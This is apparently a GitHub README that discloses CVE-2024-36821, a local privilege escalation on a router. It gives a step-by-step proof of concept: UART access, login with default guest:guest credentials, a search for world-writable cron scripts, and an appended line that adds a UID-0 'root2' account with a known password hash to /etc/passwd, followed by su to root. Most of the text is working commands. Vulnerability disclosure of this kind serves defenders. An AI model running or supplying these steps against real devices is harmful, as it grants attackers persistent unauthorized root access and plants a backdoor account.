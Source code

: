 # CVE-2024-36821
The public reference that contains the minimum require information for the vulnerability covered by CVE-2024-36821

### The original video with PoC you may find on the video -> https://www.youtube.com/watch?v=6vHno0ik7JY

### The PoC:
1. Connect to the router witnin UART conenction
2. Using `guest:guest` credentials, log into the system
3. Using `find / -perm -777 -type f 2>/dev/null` command, find files with read-write-execute permissions:
    ```
    1. /tmp/cron/cron.daily/sysinfo_cleanup.sh
    2. /tmp/cron/cron.daily/devicedb_backup_daily.sh
    3. /tmp/cron/cron.hourly/sysinfo_cleanup.sh
    4. /tmp/cron/cron.every5minute/sysinfo_cleanup.sh
    5. /tmp/cron/cron.everyminute/conntrack_collector.sh
    ```
    <img width="456" alt="Screenshot 2024-06-10 at 20 00 50" src="https://github.com/IvanGlinkin/CVE-2024-36821/assets/64857726/b464856d-e222-493c-a697-1c3fe4cbbd98">

5. Check the owner by `ls -al /tmp/cron/cron.everyminute/conntrack_collector.sh` command
6. Generate the password by `openssl passwd Abracadabra` command
7. Edit `/tmp/cron/cron.everyminute/conntrack_collector.sh`, adding to the end the new generated password:
   ```
   echo "root2:UlPYin76ss0w2:0:0::/:/bin/sh" >> /etc/passwd
   ```
   
    <img width="424" alt="Screenshot 2024-06-10 at 20 05 05" src="https://github.com/IvanGlinkin/CVE-2024-36821/assets/64857726/babb8bae-cc11-49e2-9b76-d45fd26c21d1">

9. Wait for a minute
10. Switch user into root2 by the next command
    ```
    / $ su root2
    Password: Abracadabra
    ~ #
    ```
